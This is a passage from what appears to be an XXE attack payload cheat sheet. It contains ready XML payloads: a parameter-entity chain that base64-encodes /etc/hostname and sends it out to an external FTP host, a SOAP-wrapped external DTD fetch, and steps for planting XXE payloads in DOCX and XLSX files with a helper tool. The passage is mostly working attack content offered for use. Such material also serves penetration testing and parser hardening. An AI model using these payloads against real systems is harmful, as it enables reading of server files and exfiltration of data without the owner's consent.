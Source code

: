 *xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE inside XLSX file

Structure of the XLSX:

```
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```
